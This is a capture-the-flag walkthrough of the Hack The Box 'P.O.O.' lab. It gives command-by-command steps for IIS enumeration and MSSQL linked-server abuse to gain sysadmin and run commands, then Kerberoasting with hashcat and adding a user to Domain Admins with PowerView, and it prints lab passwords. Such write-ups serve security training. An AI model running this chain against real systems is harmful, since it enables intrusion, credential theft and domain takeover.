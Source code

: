 # [P.O.O.](https://app.hackthebox.com/endgames/poo)

```bash
nmap -p- --min-rate 5000 10.13.38.11 -Pn
```

![alt text](img/image.png)


After finding open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p80,1433 10.13.38.11 -Pn
```

![alt text](img/image-1.png)


Let's do `Directory Fuzzing` for port `80`.

```bash
gobuster dir -u http://10.13.38.11 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt  -t 50
```

![alt text](img/image-16.png)


We find `.ds_store` file located here. This files are actually created by MacOS when it visits a directory. They store attributes of the folder and the files within it. Likely here the site was developed on a Mac and then deployed to this Windows server. The structure of the .ds_store file is proprietary, but it has been reversed.


[DS_walk](https://github.com/Keramas/DS_Walk) tool is used to enumerate `.ds_store` files. Let's use this.

```bash
python3 ds_walk.py -u http://10.13.38.11
```

![alt text](img/image-2.png)

I know that target application is `Windows IIS` Server. Let's fuzz files on target webserver by looking at this [blog](https://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf)

Due to this paper, we need to use [iis_shortname_scanner](https://github.com/lijiejie/IIS_shortname_Scanner) tool to enumerate.

```bash
python3 iis_shortname_scan.py http://10.13.38.11/
```

![alt text](img/image-3.png)


Let's enumerate `db` directories also which we found from `ds_walk` tool's output.
```bash
python3 iis_shortname_scan.py http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db
```

![alt text](img/image-4.png)


We found, let's `grep` words from seclists that starts with `co` 
```bash
grep "^co" /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt > co_fuzzer.txt 
```

After this, let's do `Directory Fuzzing` with prepared wordlist.

```bash
wfuzz -c -w co_fuzzer.txt -u http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db/poo_FUZZ.txt --hc 404
```

![alt text](img/image-5.png)



Let's read content of `connection` file, maybe contains some sensiitve information.

```bash
curl -s http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db/poo_connection.txt
```

![alt text](img/image-6.png)


external_user: #p00Public3xt3rnalUs3r#


We also find first flag.

As we know port `1433` is open, we can connect into `MSSQL` via Impacket's script called `mssqlclient.py`

```bash
impacket-mssqlclient external_user:'#p00Public3xt3rnalUs3r#'@10.13.38.11
```

![alt text](img/image-7.png)


I used this [cheatsheet](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) to enumerate `MSSQL`.


While I want to run `enable_xp_cmdshell`, it doesn't allow due to low-level permissions.


I looked at permissions as below.
```bash
EXECUTE ('SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''SERVER'');') at [COMPATIBILITY\POO_CONFIG]

EXECUTE ('EXECUTE (''SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''''SERVER'''');'') at [COMPATIBILITY\POO_PUBLIC]') at [COMPATIBILITY\POO_CONFIG];
```

![alt text](img/image-8.png)


From permissions above, I see that I can add user with `sysadmin` privileges. As a result, I can do `Command Execution`.

```bash
EXECUTE('EXECUTE(''CREATE LOGIN dr4ks WITH PASSWORD = ''''qwe123QWE!@#'''';'') AT [COMPATIBILITY\POO_PUBLIC]') AT [COMPATIBILITY\POO_CONFIG]

EXECUTE('EXECUTE(''EXEC sp_addsrvrolemember ''''dr4ks'''', ''''sysadmin'''''') AT [COMPATIBILITY\POO_PUBLIC]') AT [COMPATIBILITY\POO_CONFIG]
```


Let's connect into `MSSQL` via our new user called `dr4ks`.

```bash
impacket-mssqlclient dr4ks:'qwe123QWE!@#'@10.13.38.11
```

Now, I can read flag from `flag` table.
```bash
select * from flag.dbo.flag;
```

![alt text](img/image-9.png)


Also, I can run system commands as below.

![alt text](img/image-10.png)


While I want to read `web.config` file, it doesn't allow.

![alt text](img/image-11.png)


I find another method from [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#rce-read-files-executing-scripts-python-and-r)

```bash
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
```

![alt text](img/image-12.png)


This `stored procedure` worked, let's try to read `web.config` file.
```bash
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("type \inetpub\wwwroot\web.config"))'
```

![alt text](img/image-13.png)


Administrator: EverybodyWantsToWorkAtP.O.O.


From `Directory Fuzzing` result, I see `admin` endpoint, let's try to access here via this creds to read something.


```bash
curl -s http://administrator:EverybodyWantsToWorkAtP.O.O.@10.13.38.11/admin/
```

![alt text](img/image-14.png)


While I run `ipconfig` on target machine, I see that one interface that doesn't have `IPv4` address and has `IPv6` address.

```bash
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("ipconfig"))'
```

![alt text](img/image-15.png)


Ipv6: 'dead:beef::1001'


While I want to `nmap` scan for this `IPv6` , I find `wsman` port. We use `-6` means `IPv6` address.
```bash
nmap -p- -6 --min-rate 10000 dead:beef::1001
```

![alt text](img/image-17.png)

To connect into machine, I need to add `hostname` into `/etc/hosts` file for resolving purposes to `IPv6` address.

```bash
dead:beef::1001 compatibility
```


Now, we can connect with `evil-winrm` by using `administrator` credentials.

```bash
evil-winrm -i compatibility -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'
```

flag.txt

![alt text](img/image-18.png)


I find `DC`'s ip address by doing `nslookup`.

![alt text](img/image-19.png)


But I cannot run any of scripts. I think to login into `MSSQL` for command execution. For this, I must setup `-windows-auth` option.
```bash
impacket-mssqlclient administrator:'EverybodyWantsToWorkAtP.O.O.'@10.13.38.11 -windows-auth
xp_cmdshell powershell -c import-module c:\programdata\invoke-kerberoast.ps1; invoke-kerberoast -outputformat hashcat
```

![alt text](img/image-20.png)

I get hash of `p00_adm` user and tries to crack with `hashcat`.

```bash
hashcat -m 13100 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![alt text](img/image-21.png)


p00_adm: ZQ!5t4r


From `Bloodhound` result, we see that this user has `GenericAll` privilege to `DC`

![alt text](img/image-22.png)

So let's add our this into `Domain Admins` to access into `Domain Controller`. For this, I will use `PowerView`.

```bash
Import-Module .\PowerView.ps1
$pass = ConvertTo-SecureString 'ZQ!5t4r' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('intranet.poo\p00_adm', $pass)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'p00_adm' -Credential $cred
```


After this, we can access to `SMB` share of `Domain Controller`.

```bash
net use \\DC.intranet.poo\c$ /u:intranet.poo\p00_adm 'ZQ!5t4r' # access is created
dir \\DC.intranet.poo\c$\users\   # for checking
```


Let's read final flag.
```bash
type \\DC.intranet.poo\C$\Users\mr3ks\Desktop\flag.txt
```

![alt text](img/image-23.png)